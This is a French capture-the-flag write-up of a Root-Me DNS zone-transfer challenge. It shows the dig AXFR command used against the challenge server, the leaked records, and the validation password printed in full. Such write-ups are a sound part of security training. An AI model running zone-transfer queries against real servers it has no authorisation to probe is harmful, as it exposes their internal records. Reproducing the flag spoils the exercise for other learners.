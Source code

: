 # Challenge RootMe :DNS - Transfert de Zone

- **Catégorie** : Réseau  
- **Difficulté** : ⭐⭐
- **Objectif** : Récupérer le mot de passe de validation en exploitant une mauvaise configuration de transfert de zone DNS.

---

## 📝 Étapes de résolution

### 1. Identification de la cible
  - **Hôte** : `challenge01.root-me.org`
  - **Port** : `54011`
  - **Domaine** : `ch11.challenge01.root-me.org`
  - **Protocole** : `DNS`

### 2. Exécution de la commande de transfert de zone
  Utilisation de l'outil `dig` pour lancer une requête de transfert de zone :
  ```bash
  dig @challenge01.root-me.org -p 54011 AXFR ch11.challenge01.root-me.org.
  ```

### 3. Analyse de la réponse DNS

  La réponse obtenue présente plusieurs enregistrements DNS. Un extrait significatif de la réponse est le suivant :
  
  ```bash
  ch11.challenge01.root-me.org. 604800 IN SOA     ch11.challenge01.root-me.org. root.ch11.challenge01.root-me.org. 2 604800 86400 2419200 604800
  ch11.challenge01.root-me.org. 604800 IN TXT     "DNS transfer secret key : CBkFRwfNMMtRjHY"
  ch11.challenge01.root-me.org. 604800 IN NS      ch11.challenge01.root-me.org.
  ch11.challenge01.root-me.org. 604800 IN A       127.0.0.1
  challenge01.ch11.challenge01.root-me.org. 604800 IN A 192.168.27.101
  ```

### 4. Récupération du mot de passe

  L'enregistrement TXT contient le mot de passe de validation :
  
  ```plaintext
  DNS transfer secret key : CBkFRwfNMMtRjHY
  ```
  Ce qui nous permet d'obtenir directement le flag.

 **🛠 Outils utilisés** : 
  - dig : Utilitaire DNS en ligne de commande
  - Terminal UNIX/Linux : Pour exécuter la commande

**🏆 Solution finale** : 
  Mot de passe :
  ```plaintext
  CBkFRwfNMMtRjHY
  ```
